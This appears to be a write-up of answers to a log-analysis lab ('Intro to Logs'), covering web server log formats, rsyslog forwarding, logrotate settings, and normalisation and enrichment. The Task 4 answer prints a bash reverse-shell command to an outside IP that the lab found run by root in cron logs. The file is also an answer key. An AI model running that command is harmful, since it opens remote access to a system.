




> # Intro to Logs

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Expanding Perspectives: Logs as Evidence of Historical Activity](#task-2---expanding-perspectives-logs-as-evidence-of-historical-activity)
    - [Task 3 - Types, Formats, and Standards](#task-3---types-formats-and-standards)
    - [Task 4 - Collection, Management, and Centralisation](#task-4---collection-management-and-centralisation)
    - [Task 5 - Storage, Retention, and Deletion](#task-5---storage-retention-and-deletion)
    - [Task 6 - Hands-on Exercise: Log analysis process, tools, and techniques](#task-6---hands-on-exercise-log-analysis-process-tools-and-techniques)

<!-- /TOC -->

## Task 2 - Expanding Perspectives: Logs as Evidence of Historical Activity
1. What is the name of your colleague who left a note on your Desktop?<br>
    Open `note.txt` on desktop.<br>
    <br>

1. What is the full path to the suggested log file for initial investigation?<br>
    >  You could look at the available logs in /var/log/gitlab/, but I suggest looking into /var/log/gitlab/nginx/access.log and searching for suspicious web browser activity first.

    **Answer:**  /var/log/gitlab/nginx/access.log

## Task 3 - Types, Formats, and Standards
1. Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?<br>
    > Web Server Logs: Requests processed by a web server, including URLs, response codes, etc.

    **Answer:** Web Server Logs

1. Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?<br>
    > NCSA Combined Log Format (Combined): An extension of CLF, adding fields like referrer and user agent. It is typically used by Nginx HTTP Server by default.

    **Answer:** Combined

## Task 4 - Collection, Management, and Centralisation
1. After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?<br>
    After configuring rsyslog for sshd, we will see the user is used to bruteforce.<br>
    <br>
    **Answer:** stansimon

1. What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?<br>
    ```
    $ cat /etc/rsyslog.d/99-websrv-02-cron.conf
    # Log Forwarding with rsyslog
    $FileCreateMode 0644
    :programname, isequal, "CRON" /var/log/websrv-02/rsyslog_cron.log
    # Forward Logs to SIEM-02:51514
    # *.* @10.10.10.101:51514
    ```

1. Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?<br>
    Open the given file, you will see the command run by the root user.<br>
    <br>
    **Answer:** /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

## Task 5 - Storage, Retention, and Deletion
1. Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?<br>
    Read this file, you will the value of `rotate` is 24.<br>
    **Answer:** 24

1. Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?<br>
    **Answer:** hourly

## Task 6 - Hands-on Exercise: Log analysis process, tools, and techniques
1. Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?<br>
    Open cron and sshd log, you will see the error on browser.<br>
    <br>
    **Answer:** No date field

1. What is the process of standardising parsed data into a more easily readable and query-able format?<br>
    > Normalisation is standardising parsed data. It involves bringing the various log data into a standard format, making comparing and analysing data from different sources easier.

    **Answer:** Normalisation

1. What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?<br>
    > Enrichment makes logs more valuable, enabling analysts to make better decisions and more accurately respond to incidents. 

    **Answer:** Enrichment

